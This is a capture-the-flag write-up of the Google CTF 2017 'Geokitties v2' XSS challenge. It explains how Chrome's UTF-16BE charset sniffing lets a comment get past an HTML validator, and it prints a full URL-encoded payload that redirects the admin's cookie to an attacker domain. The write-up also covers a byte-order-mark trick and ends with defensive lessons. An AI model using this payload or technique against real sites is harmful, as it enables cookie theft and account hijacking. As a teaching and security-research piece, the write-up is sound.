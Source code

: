 # Write-up: Google CTF 2017 | Geokitties v2

[**Geokitties v2**](https://geokittiesv2.web.ctfcompetition.com/) is an XSS
challenge that comes in the look of the late-90's personal homepage of an avid
cat enthusiast. The site's only operative feature is a comment form that
allows a small subset of HTML. Any supplied comment is immediately reviewed
by the administrator who will click on any link in the comment text. Here, the
challenge is to submit a comment that passes the deployed HTML validator and
at the same time triggers XSS on the administrator's end to exfiltrate a secret
flag cookie.

Interestingly, there is a shortcut to solve this challenge. Instead of exploiting
weaknesses in the HTML parser itself, we can take advantage of Google Chrome's
lax charset sniffing to simply bypass parts the validation process.

## The HTML validator

The application is written in Node.js and uses the
[`htmlparser2`](https://github.com/fb55/htmlparser2) module to parse the HTML in a
provided comment text. The comment validator then roughly takes these steps to
ensure that the supplied HTML is safe:

- Only allow HTML tags from a whitelist (`p`, `a`, `b`, `img`, `br`, `i`) to
  prevent dangerous tags with side effects (e.g. `<script>` or `<iframe>`).
- Exclude all `on.*` event handler attributes (e.g. to prevent an `onclick`
  event attached to an otherwise innocuous `<a>` link).
- Allow an `href` attribute only if the value starts with `http[s]:` to prevent
  XSS via `javascript:` or `data:` pseudo schemes.

One possible attack approach here is to examine the parser's handling of
duplicate attributes and attributes that are written in mixed case or
interspersed with unexpected Unicode glyphs. Other ideas include setting an
excessive amount of attributes or using ambiguous formatting -  e.g. by mixing
different types of quotes or by finding a character that the application's
parser interprets as whitespace while the browser sees it as part of an
identifier.

## A different approach

But luckily we don't need to examine the parser's implementation to solve the
challenge. Instead, we can take advantage of the fact that the site is served
as `text/html` but without any charset declaration. In such a case, browsers
employ different heuristics to guess the intended charset. But while
convenient, charset sniffing can become unpredictable quickly.  E.g., Chrome
interprets `data:text/html,%AA%BB`as being encoded in the Chinese `Big5` charset,
while `data:text/html,%00%BB` is sniffed as UTF-16LE due to the null byte
padding.

For this challenge, we trigger Chrome's UTF-16BE sniffing by using the byte
sequence `\x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x`. In UTF-16 Big Endian,
Unicode code points are encoded in chunks of at least 16 bits. E.g., the
character `A` (which is encoded in UTF-8 as `\x41`) needs to be encoded as
`\x00\x41` in UTF-16BE.  Consequently, the document
`data:text/html;charset=utf-16be,<br>` doesn't yield a single `<br>` tag but
results in the two Unicode code points `\u3C62` and `\u723E`. We can exploit
this behavior to make the browser "swallow" sequences that are part of the HTML
syntax in UTF-8 but look innocent in a different charset. This way we can
inject arbitrary tags and don't even need to respect the parser's whitelist.

Our comment format looks like this:

    \x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x<a href="http:$payload">

Any angle brackets that appear inside the `href` attribute are parsed as part
of the value while the browser sees the document in UTF-16BE and doesn't
recognize the `<a>` tag at all. At `$payload` we can then simply inject HTML in
UTF-16BE. That is, we just need to pad a standard ASCII-based payload with null
bytes and make sure it doesn't interfere with the double quotes of the original
tag. To exfiltrate the cookie we then just issue a redirect to an
attacker-controlled domain with the cookie attached.

So, the final URL-encoded sequence could look like this:

    %11x%12x%13x%14x%15x%16x%17x%18x%19x%3Ca%20href%3D%22http%3A%00<%00a%00 %00h%00r%00e%00f%00=%00j%00a%00v%00a%00s%00c%00r%00i%00p%00t%00:%00l%00o%00c%00a%00t%00i%00o%00n%00=%00'%00h%00t%00t%00p%00s%00:%00/%00/%00a%00t%00t%00a%00c%00k%00e%00r%00.%00s%00i%00t%00e%00/%00'%00%%002%00B%00d%00o%00c%00u%00m%00e%00n%00t%00.%00c%00o%00o%00k%00i%00e%00>%00f%00o%00o%00<%00/%00a%00>%22%3e

And `https://attacker.example/` will receive the following flag:

    CTF{i_HoPe_YoU_fOunD_tHe_IntEndeD_SolUTioN_tHis_Time}

It's worth noting that not all browsers perform the same lax charset sniffing
as Google Chrome does - e.g., the trick wouldn't work in Firefox. But
fortunately, in this challenge the admin bot is implemented as a headless
instance of Google Chrome.

## Yet another trick

Curiously, the application almost fell for a different trap that would even
have defeated an explicit charset declaration: An attacker who controls the
first bytes in a document can inject a BOM (byte order mark) to override the
specified charset (even if it originates from a header declaration).

> Changes introduced with HTML5 mean that the byte-order mark overrides any encoding declaration in the HTTP header when detecting the encoding of an HTML page.

[(Source)](https://www.w3.org/International/questions/qa-byte-order-mark)

The BOM for UTF-16BE is `\xFE\xFF`, so this document is encoded in
UTF-16BE despite being declared as UTF-8:

    data:text/html;charset=utf-8,%FE%FFfoo

But unfortunately this method doesn't work here because BOMs aren't preserved by the application but converted to a UTF-8 representation (e.g. `\xEF\xBF\xBD` for `\xFF`).


## Lessons learned

Web applications should always declare a charset explicitly and not rely on automated detection by browsers. Also, an attacker should not be able to control the first bytes of a document.
